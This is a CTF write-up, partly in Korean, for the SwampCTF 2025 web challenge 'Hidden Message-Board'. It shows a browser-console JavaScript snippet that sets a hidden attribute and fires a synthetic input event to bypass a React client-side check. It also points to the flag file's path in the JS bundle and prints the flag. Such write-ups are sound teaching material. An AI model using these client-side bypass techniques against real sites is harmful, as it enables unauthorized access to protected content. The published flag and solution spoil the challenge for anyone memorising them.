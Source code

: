 # 🧃 SwampCTF 2025 Writeup - [Hidden Message-Board]

**Category:** Web  
**Points:** 50  
**Tags:** `CTF`, `Web`, `swampctf`

---

## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
  - [🛠️ Step 1. 개발자 도구로 페이지 분석](#️-step-1-개발자-도구로-페이지-분석)
  - [🛠️ Step 2. React 내부 로직 확인](#️-step-2-react-내부-로직-확인)
  - [🛠️ Step 3. Exploit 스크립트 실행](#️-step-3-exploit-스크립트-실행)
  - [🔎 Unintended Solution](#-unintended-solution)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

📸 ![Pasted image](./Pasted%20image%2020250403001512.png)

- 메시지 보드 페이지가 존재함
- React 기반 SPA 구조로 구성됨

---

## 🎯 The Goal

> 플래그를 얻기 위한 주요 목표 정리

- [x] 메시지 보드 구조 분석
- [x] React 내부 상태 확인 및 조작

---

## 💉 Exploit

### 🛠️ Step 1. 개발자 도구로 페이지 분석

📸 ![Pasted image](./Pasted%20image%2020250403001737.png)

- 소스에서 `<div id="flagstuff">` 와 `G1v3M3Th3Fl@g!!!!` 문자열 확인
- 조건에 맞는 `code` 값 설정 시 `getFlag()` 실행되는 구조

### 🛠️ Step 2. React 내부 로직 확인

```js
if (printFlagSetup.getAttribute("code") === "G1v3M3Th3Fl@g!!!!") {
  const flag = await getFlag();
  setFlagValue("[flag]: " + flag);
}
```

- React Virtual DOM 기반이므로 단순 DOM 수정은 무효
- textarea 입력 이벤트로 리렌더링 유도 필요

### 🛠️ Step 3. Exploit 스크립트 실행

```js
(function () {
  const FLAG_CODE = "G1v3M3Th3Fl@g!!!!";

  const flagDiv = document.getElementById("flagstuff");
  if (flagDiv) {
    flagDiv.setAttribute("code", FLAG_CODE);
    console.log("[+] code attribute set");
  } else {
    console.error("[-] flagstuff not found");
    return;
  }

  const textarea = document.querySelector("textarea");
  if (textarea) {
    const nativeInputValueSetter = Object.getOwnPropertyDescriptor(window.HTMLTextAreaElement.prototype, "value").set;
    nativeInputValueSetter.call(textarea, " ");

    const inputEvent = new Event("input", { bubbles: true });
    textarea.dispatchEvent(inputEvent);

    console.log("[+] triggered real input event");
  } else {
    console.error("[-] textarea not found");
  }
})();
```

👉 브라우저 개발자 도구 콘솔에 붙여 넣어 실행하면 flag가 화면에 출력됨 🎉

📸 ![Pasted image](./Pasted%20image%2020250403001855.png)

### 🔎 Unintended Solution

- `/static/js/bundle.js` 내부에서 flag 파일 경로 확인 가능
- 직접 접근: [`/static/media/flag.d93dd6a8616cc31d36db.txt`](http://chals.swampctf.com:43333/static/media/flag.d93dd6a8616cc31d36db.txt)

---

## 🍪 Info Leakage or Gain

- React의 Virtual DOM 구조는 DOM 조작만으로 상태 변경되지 않음
- 이벤트 트리거 방식으로 우회 가능
- 프론트 JS 코드에서 민감 로직이 노출된 사례

---

## 👑 Accessing the Flag

```
swampCTF{Cr0ss_S1t3_Scr1pt1ng_0r_XSS_c4n_ch4ng3_w3bs1t3s}
```

---

## 🧠 Conclusion

- React는 상태 기반이므로 단순 DOM 변경은 무시됨
- `setAttribute()`만으로는 무효 → **이벤트 기반 조작 필요**
- 실제 사용자 입력을 흉내내어 상태 변화 유도 가능
- 클라이언트 렌더링 기반에서도 flag 노출 가능성 존재

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_